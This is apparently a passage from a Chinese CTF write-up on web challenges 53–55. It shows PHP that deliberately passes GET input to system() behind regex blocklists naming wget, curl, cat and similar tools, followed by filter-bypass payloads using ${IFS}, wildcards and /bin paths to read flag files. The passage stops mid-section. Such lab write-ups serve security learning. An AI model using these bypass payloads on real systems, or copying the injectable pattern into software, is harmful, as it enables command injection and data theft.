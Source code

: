 ## web53（${IFS}绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
比较简单，不过ls后有个readflag的elf文件，不知道是干啥的
payload：/?c=nl${IFS}fla?.php
## web54（/bin/cat）
```php
<?php


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
？？？这个过滤看起来丧心病狂，能用的几乎都ban了，思路是用其他方式执行打印，比如执行cat就去/bin/cat调用等等，这些通常都是存储在/bin目录下的
payload：/?c=/bin/ca?${IFS}f?ag.php
右键查看源码即可得到flag
## web55（无字母命令执行）
```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
这道题过滤了字母，看了大佬文章才逐渐理解，这里主要是复现
推荐：[p神博客](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
有两个有趣的知识点：
